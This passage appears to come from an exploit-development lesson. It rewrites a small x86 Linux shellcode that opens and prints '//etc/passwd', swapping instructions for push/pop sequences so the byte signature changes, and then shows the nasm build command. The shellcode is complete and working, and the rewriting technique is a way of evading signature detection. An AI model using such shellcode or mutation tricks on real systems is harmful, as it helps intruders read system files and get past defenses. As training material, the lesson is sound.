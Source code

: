 This shellcode already uses a lot of the tricks we've learned over the last few lessons, but we can still change quite a bit of it. Let's see what we can do.

```nasm
global _start


section .text

_start:
	xor ecx,ecx
	xor eax,eax
	xor edx,edx			; longer way to clear these 3 registers 
	mov al,0x5 
	push edx			; can switch this to any of the cleared registers as we're just pushing a null, changed to edx 
	push dword 0x64777373
	push dword 0x61702f63
	push dword 0x74652f2f
	mov ebx,esp 
	int 0x80
	push eax			; Step 1
	push ebx			; Step 2
	push ecx			; Step 3
	pop eax				; Step 4
	pop ecx				; Step 5
	pop ebx 			; Step 6, we just replaced two simple xchg opcodes with 6 lines of push/pops
	mov al,0x3  
	mov dx,0xfff			; deleted previous line which was xor edx,edx since edx is still zeroed 
	inc edx 
	int 0x80
	push eax			; Step 1
	push edx			; Step 2
	pop eax				; Step 3
	pop edx	 			; Step 4, we just replaced a simple xchg opcde with 4 lines of push/pops 
	xor eax,eax 
	mov al,0x4 
	mov bl,0x1 
	int 0x80
	push eax			; Step 1
	push ebx			; Step 2
	pop eax				; Step 3
	pop ebx				; Step 4, we just replaced a simple xchg opcode with 4 lines of push/pops 
```

As you can see from the comments, we had to add some nonsense since the original code was pretty clean. I **did** find a line that wasn't needed that I deleted, so we did improve efficiency in at least one instance. 

Let's assemble and link our code:
```terminal_session
root@kali:~# nasm -f elf32 read.nasm && ld -m elf_i386 read.o -o read
```

